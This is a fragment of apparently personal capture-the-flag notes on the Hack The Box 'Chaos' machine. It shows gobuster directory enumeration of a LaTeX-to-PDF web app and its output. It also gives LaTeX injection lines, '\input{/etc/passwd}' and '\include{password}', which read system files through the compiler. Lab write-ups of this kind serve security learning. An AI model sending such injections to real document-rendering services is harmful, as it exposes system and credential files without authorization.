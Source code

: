 Gobuster

pdf directory is where the created pdf files go. i check with dump and it would appear i can't control the extension. doc is the template directory. The asset directory might have something in the js directory perhaps what makes the pdf app.js. Source is equally interesting. the pdf directory contains inicially a bunch of files and those files are encoded in base64 they references they referenced tee adjustbox-2.log

```
 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/      

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/02/08 01:05:28 Starting gobuster
=====================================================
/templates (Status: 301)
/pdf (Status: 301)
/doc (Status: 301)
/assets (Status: 301)
/source (Status: 301)
/tex (Status: 301)
/compile (Status: 301)

```

```
\include{password}
\input{/etc/passwd}

```

![final-webpage-black-list](final-webpage-black-list.PNG)
